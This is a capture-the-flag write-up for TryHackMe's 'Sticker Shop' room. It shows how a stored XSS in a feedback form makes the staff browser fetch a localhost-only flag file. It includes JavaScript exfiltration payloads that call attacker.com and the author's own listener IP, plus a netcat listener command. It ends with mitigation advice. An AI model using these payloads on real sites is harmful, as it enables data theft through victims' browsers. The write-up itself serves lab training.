




# The Sticker Shop


> Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!

**Task:** read the flag at `http://MACHINE_IP:8080/flag.txt`.

**Room link:** https://tryhackme.com/room/thestickershop

---

## 1. Trying to access the flag directly

Let's jump into it and try to open `http://10.129.183.68:8080/flag.txt` directly.

Unfortunately, we get `401 Unauthorized`.



So the flag file is protected, but only when requested from outside — which is the hint for what's coming next.

## 2. Inspecting the website

Let's open `http://10.129.183.68:8080` instead. We see a website with two pages: **Home** and **Feedback**.



If we submit any feedback, we get the message: *"Thanks for your feedback! It will be evaluated shortly by our staff."*



## 3. Spotting the XSS opportunity

That message is the key detail: it tells us our feedback will be **reviewed by a staff member in their own browser**. Since the room description already hints that staff browse the internet from the same machine that hosts the site, this looks like a classic stored **XSS (Cross-Site Scripting)** vector — if the feedback field isn't sanitised, we can inject JavaScript that runs in the staff member's browser when they review it.

From there, the plan is simple: use that JavaScript to make the staff member's browser fetch `flag.txt` on our behalf (since their request will come from `localhost`, bypassing the `401` we hit earlier) and exfiltrate the result to a server we control. An example payload for this kind of attack looks like:

```html
<script>
  fetch('/admin/secret-file.txt')
    .then(response => response.text())
    .then(data => {
        fetch('http://attacker.com/log?file=' + encodeURIComponent(data));
    });
</script>
```

## 4. Targeting the local flag file

We already confirmed that `http://10.129.183.68:8080/flag.txt` returns `401` when requested directly. But since the staff browser runs *on* the server itself, it should be able to reach the flag via the loopback address instead:

```
http://127.0.0.1:8080/flag.txt
```

## 5. Setting up a listener

Before sending the payload, we start a listener on our own machine to catch the exfiltrated data:

```bash
nc -lnvp 4444
```

- `-l` — listen mode (wait for an incoming connection instead of making one)
- `-n` — skip DNS resolution, treat all addresses as numeric IPs
- `-v` — verbose output, so we see connection details when something connects
- `-p 4444` — bind the listener to local port `4444`

```
listening on [any] 4444 ...
```

## 6. Building and sending the payload

Our final payload fetches the flag via `localhost` (so it bypasses the `401`), encodes it, and sends it to our listener as a GET parameter:

```html
<script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
        fetch('http://192.168.145.217:4444?file=' + encodeURIComponent(data));
    });
</script>
```

We submit this payload through the feedback form and wait for staff to review it.

## 7. Catching the flag

Our listener receives the callback once the staff member's browser executes the payload:

```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.145.217] from (UNKNOWN) [10.129.183.68] 43712
GET /?file=<URL-encoded flag, redacted> HTTP/1.1
Host: 192.168.145.217:4444
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.105 Safari/537.36
Accept: */*
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8080/
Accept-Encoding: gzip, deflate
```

The flag arrives URL-encoded in the `file` parameter (e.g. `%7B` and `%7D` are the URL-encoded forms of `{` and `}`). Decoding it (e.g. with CyberChef's "URL Decode" recipe) gives the plaintext flag, in TryHackMe's usual `THM{...}` format.



Room solved.

## Takeaways

This is a textbook example of **stored XSS used to pivot past an access control**: the feedback field accepts raw HTML/JavaScript with no sanitisation, so an attacker can plant a script that runs in a privileged victim's browser (here, a staff member reviewing feedback) rather than the attacker's own. Because the victim's browser is on the host itself, it can reach `127.0.0.1` endpoints the attacker is blocked from (the `401` on direct access), which is what makes exfiltrating `flag.txt` possible — effectively a mix of **stored XSS** and **SSRF-via-victim** (using someone else's browser as a local proxy).

**Mitigation:**
- Sanitise and encode all user-supplied input before storing or rendering it (e.g. HTML-encode output, strip `<script>` tags), both server- and client-side.
- Apply a strict **Content Security Policy (CSP)** to stop injected scripts from reaching attacker-controlled domains.
- Don't trust `localhost`/`127.0.0.1` as an implicit "trusted" origin for sensitive endpoints — require the same authentication regardless of source IP.
- Review feedback/admin-facing content in an isolated, sandboxed browser (or a simple text preview) rather than a full browser session with network access.
- Set `HttpOnly` and `Secure` flags on session cookies so a successful XSS can't trivially steal them.